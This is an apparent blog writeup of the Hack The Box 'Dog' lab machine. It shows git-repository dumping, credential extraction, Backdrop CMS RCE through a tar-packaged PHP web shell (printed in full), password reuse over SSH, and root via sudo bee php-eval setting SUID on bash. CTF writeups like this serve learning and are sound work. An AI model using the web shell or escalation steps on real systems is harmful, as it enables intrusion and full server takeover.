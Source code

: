 ```yaml
---
title: Dog - Linux Easy - HTB Writeup 
description:
slug: Dog-htb-writeup-linux-easy
date: 2025-07-12 00:00:00+0000
image: Dog.png
categories:
    - Hack
    - Linux
    - Easy
tags:
    - GitHack
    - RCE
    - Sudo misconfiguration
# weight: 1       # You can add weight to some posts to override the default sorting (date descending)
---
```

## Summary
User: Webapp credentials in source code using GitHack + RCE via upload of a malicious archive.\
Root: Sudo misconfiguration of bee CLI.

## Enumeration
Using nmap, we can identify a web service on port 80 and SSH exposed on port 22.

{{< highlight go "hl_lines=1 3 8 21" >}}
$ nmap -Pn -p- 10.129.208.97 -v -A
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Home | Dog
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 3836E83A3E835A26D789DDA9E78C5510
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-git: 
|   10.129.208.97:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
{{< /highlight >}}

## User
### Git dump + RCE via shell.tar
The nmap scan revealed that the git repository of the webapp is exposed.\
Using [GitHack](https://github.com/lijiejie/GitHack), we are going to partially retrieve the source code of this web application.
{{< highlight go "hl_lines=1 4" >}}
$ ls
GitHack.py  index  lib  README.md
              
$ python GitHack.py http://dog.htb/.git
[+] Download and parse index file ...
[+] LICENSE.txt
[+] README.md
[+] core/.jshintignore
...

{{< /highlight >}}
In those files, we can find a username `tiffany` and a password `BackDropJ2024DS2024`
{{< highlight go "hl_lines=1 4" >}}
$ grep -ir dog.htb .
./dog.htb/files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json:        "tiffany@dog.htb"

$ cat -n settings.php
...
    15  $database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
...
{{< /highlight >}}

Using those credentials, we gain access to the webapp `http://dog.htb` as `tiffany`.\
We can find the version of `Backdrop` in the `Reports` tab then `Status report`.\
This version `1.27.7` is vulnerable to an RCE.
![](Backdrop_version.png)

The following [exploit](https://www.exploit-db.com/exploits/52021) could work but our instance of backdrop doesn't accept `.zip` archives.\
We can find this information in the `Functionality` tab then `Install new modules`.
![](Backdrop_zip.png)

So, we are going to take the HTML/PHP code and `shell.info` content of this exploit in order to create a `shell.tar` archive.\
Then, on the same page we are going to install this new module.
{{< highlight go "hl_lines=1 19 36" >}}
$ cat shell.php   
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
system($_GET['cmd']);
}
?>
</pre>
</body>
</html>

$ cat shell.info
type = module
name = Block
description = Controls the visual building blocks a page is constructed with. Blocks are boxes of content rendered into an area, or region, of a web page.
package = Layouts
tags[] = Blocks
tags[] = Site Architecture
version = BACKDROP_VERSION
backdrop = 1.x

configure = admin/structure/block

; Added by Backdrop CMS packaging script on 2024-03-07
project = backdrop
version = 1.27.1
timestamp = 1709862662

$ tar cvf shell.tar shell.php shell.info
shell.php
shell.info
{{< /highlight >}}
![](Backdrop_shell_tar.png)
![](Backdrop_module_installed.png)

Even if this new module is not listed in the list of installed modules, we can access it through `/modules/shell/shell.php`, as specified in the [exploit](https://www.exploit-db.com/exploits/52021).
![](Backdrop_RCE.png)

In the home directory, we can find two users, `jobert` and `johncusack`.
![](Backdrop_users.png)\
Using the previously discovered password `BackDropJ2024DS2024`, we gain SSH access to the machine as `johncusack` and are able to retrieve the `user.txt` flag.
{{< highlight go "hl_lines=1 2" >}}
$ ssh johncusack@dog.htb
johncusack@dog:~$ ls
user.txt
{{< /highlight >}}

## Root
### Sudo misconfiguration
`Johncusack` can use `bee` CLI as `root` via sudo.
{{< highlight go "hl_lines=1 7" >}}
johncusack@dog:~$ sudo -l
[sudo] password for johncusack: 
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
{{< /highlight >}}

This CLI "allows developers to interact with Backdrop sites" as specified on their [GitHub](https://github.com/backdrop-contrib/bee).\
As we can see in the documentation, we can execute PHP code.

{{< highlight go "hl_lines=1" >}}
johncusack@dog:~$ sudo bee
...
  eval
   ev, php-eval
        Evaluate (run/execute) arbitrary PHP code after bootstrapping Backdrop.
...
{{< /highlight >}}

First, we are going to move to `/var/www/html` so `bee` can interact with our backdrop site.\
Then, we set the SUID flag to `/bin/bash` and get a root shell in order to read the `root.txt` flag.
{{< highlight go "hl_lines=2 5 6 8" >}}
johncusack@dog:~$ cd /var/www/html
johncusack@dog:/var/www/html$ sudo /usr/local/bin/bee php-eval 'exec("chmod u+s /bin/bash")'
johncusack@dog:/var/www/html$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
johncusack@dog:/var/www/html$ /bin/bash -p
bash-5.0# id
uid=1001(johncusack) gid=1001(johncusack) euid=0(root) groups=1001(johncusack)
bash-5.0# ls /root
root.txt
{{< /highlight >}}


## Resources
> [GitHack](https://github.com/lijiejie/GitHack)\
> [RCE exploit - Backdrop v1.27.1](https://www.exploit-db.com/exploits/52021)